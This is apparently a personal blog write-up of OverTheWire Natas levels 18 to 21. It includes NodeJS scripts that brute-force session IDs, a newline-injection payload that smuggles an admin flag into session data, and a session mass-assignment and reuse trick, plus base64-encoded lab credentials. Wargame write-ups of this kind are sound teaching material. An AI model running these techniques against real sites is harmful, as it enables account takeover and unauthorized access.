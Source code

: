 ```yaml
---
layout: post
title: natas-writeup - lv18-lv??
excerpt: "Writeup for the Natas wargame on overthewire.org, from Level 18 to ??."
categories: [writeup]
tags: [itsec, wargame]
---
```


[overthewire / natas](http://www.overthewire.org/wargames/natas/)

## Level 18 ##

In this level we're given access to the source behind `index.php`. I originally thought there might be something in the way user inputs were compared but no luck. 2 things caught my attention - the first being a comment on the maximum number of sessions: `$maxid = 640; // 640 should be enough for everyone `, followed by the snippet below:

{% highlight javascript %}
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true; 
{% endhighlight %}

Which seems to indicate some sessions would already have the `admin` flag set - so why not iterate through all 640 of them and see if the flag is set correctly somewhere?

I fired up Burp Intruder but given I only have the community edition, which throttles requests, it turned out to be faster to write the NodeJS snippet below:

{% highlight javascript %}
const got = require('got');

const sessionIds = [...Array(641).keys()]; // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas18.natas.labs.overthewire.org/index.php?debug', {                                             headers: {                                                                                                         'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (resp.body.includes('You are an admin')) {
          console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }
      });                                                                                                        });
{% endhighlight %}

And soon enough:

```
sessionId: 119 + <html>
<head>
...
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br>
...
```

## Level 19 ##

We're told the code for this level is similar to the previous one, but that the format of session ID (`PHPSESSID`) differs.

Using Burp's sequencer I gathered close to 10,000 tokens. A quick run through `sort | uniq` led to a list of 640 unique tokens. I ran through those fairly quickly with the below:

{% highlight javascript %}
const got = require('got');
const fs = require('fs');

const sessionIds = fs.readFileSync('natas19.tokens.uniq','utf8').split('\r\n'); // there are 640
sessionIds.forEach( (sessionId) => {
  got.get('http://natas19.natas.labs.overthewire.org/index.php?debug', {
    headers: {
      'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
      'Cookie': `PHPSESSID=${sessionId}`}}).then(resp =>
      {
        if (sessionId && !resp.body.includes('regular user')) {                                                                   console.log(`sessionId: ${sessionId} + ${resp.body}`);
        }                                                                                                                     });
});
{% endhighlight %}

But none of them worked - something wasn't right. From looking at the tokens, it was clear there was a part that was static: `2d616263`. This turned out to be hex for `-abc`, `abc` being the username I originally tried to log in with!

Essentially I could re-use the code for natas18, but would need to append `-admin` to each session id and convert it to hex instead. A few tries later, we're in!

For the record the session was derived as: `const s = Buffer.from(`${sessionId}-admin`).toString('hex');`

## Level 20

This one is a little different from the previous 2 given the session ID seems pretty random. A quick look at the code however reveals a red flag. The `mywrite` function:


{% highlight php %}
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    } 
{% endhighlight %}

And `myread`:

{% highlight php %}
   foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1]; 
{% endhighlight %}

Whatever we pass in as the username will be written to file and read back as key/value pairs in the `$_SESSION` object. So if we could add `admin 1` as an entry, we'd be home free. In other words, we need to add a new line to get the `mywrite` function to essentially write 2 entries.

Modifying the request to `foo%0Aadmin%201` (with `\n` and `(space)` URL-encoded) does just that - though note I had to modify the request directly in Burp vs through the textbox for this to work.

## Level 21

We're presented with a page that states it is co-located with [natas21-experimenter](http://natas21-experimenter.natas.labs.overthewire.org/index.php). The code on the main page indicates we're back to figuring out how to stuff `admin=1` in `$_SESSION` - but there's nothing on this page that would allow us to change that.

The other page however (natas21-experimenter) allows user input - lots of it. Looking at the code, the following snippet jumps out:

{% highlight php %}
// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
} 
{% endhighlight %}

We're free to add new parameters to `$_REQUEST` when submitting changes and those will be set in `$_SESSION` - yay!. Adding `&admin=1` to the `POST` parameters does the trick. However, this isn't the site we need those on.

Instead we grab the referer header along with the cookies and pass those back to the original site:

```
Referer: http://natas21-experimenter.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc5dfb9ecd6e2ed04913757fe15630eb81548476605; PHPSESSID=d0vhsull9qme8gi98ic81etna5
```

This tricks it into re-using the session we created for `natas21-experimeter` - which contains `admin=1`. Done!
```
